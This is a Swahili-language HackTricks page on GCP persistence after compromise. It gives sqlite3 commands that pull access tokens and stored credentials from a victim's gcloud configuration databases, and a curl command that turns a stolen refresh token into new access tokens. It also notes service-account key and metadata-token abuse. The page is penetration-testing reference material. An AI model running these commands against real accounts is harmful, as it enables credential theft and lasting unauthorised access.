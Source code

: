 # GCP - Kudumu Bila Huduma ya Svc

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

Hizi ni mbinu muhimu mara moja, kwa namna fulani, umefanikiwa kudukua baadhi ya vibali vya GCP au mashine inayotumika katika mazingira ya GCP.

## Udukuzi wa Kitufe

### Mtumiaji Aliyethibitishwa

Ikiwa unaweza kupata folda ya nyumbani ya **mtumiaji aliye thibitishwa katika GCP**, kwa **chaguo-msingi**, utaweza **kupata vitufe vya mtumiaji huyo kwa muda mrefu** bila haja ya kuthibitisha na kwa uhuru kwenye mashine unayotumia vitufe vyake kutoka na hata kama mtumiaji ana MFA imewekwa.

Hii ni kwa sababu kwa chaguo-msingi utaweza kutumia kitufe cha kuboresha kwa muda mrefu kuzalisha vitufe vipya.

Ili kupata **kitufe cha sasa** cha mtumiaji unaweza kukimbia:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Angalia ukurasa huu jinsi ya **kutumia moja kwa moja token huu kwa kutumia gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Ili kupata maelezo ya **kuunda token mpya la ufikiaji** endesha:
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Ili kupata *access token* mpya iliyosasishwa na **refresh token**, kitambulisho cha mteja, na siri ya mteja endesha:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Tokeni za upya wa kuthibitisha zinaweza kusimamiwa katika **Admin** > **Usalama** > **Kudhibiti kikao cha Google Cloud**, na kwa chaguo-msingi imewekwa kuwa 16h ingawa inaweza kuwekwa isiweze kumalizika:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Akaunti za Huduma

Kama ilivyo kwa watumiaji waliothibitishwa, ikiwa utafanikiwa **kuharibu faili ya ufunguo wa kibinafsi** wa akaunti ya huduma utaweza **kuiweka kwa kawaida kwa muda mrefu**.\
Hata hivyo, ikiwa unajiwekea **tokeni ya OAuth** ya akaunti ya huduma hii inaweza kuwa ya kuvutia zaidi, kwa sababu, hata kama kwa chaguo-msingi tokeni hizi ni muhimu kwa saa moja tu, ikiwa **mhalifu atafuta ufunguo wa API wa kibinafsi, tokeni ya OAuth itaendelea kuwa halali hadi itakapomalizika**.

### Metadata

Kwa wazi, muda mrefu ukiwa ndani ya mashine inayofanya kazi katika mazingira ya GCP utaweza **kupata akaunti ya huduma iliyowekwa kwenye mashine hiyo kwa kuwasiliana na mwisho wa metadata** (kumbuka kuwa tokeni za Oauth unazoweza kupata kwenye mwisho huu kawaida zinazuiliwa na scopes).

### Upatanisho

Baadhi ya upatanisho kwa mbinu hizi zinaelezewa katika [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Marejeo

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
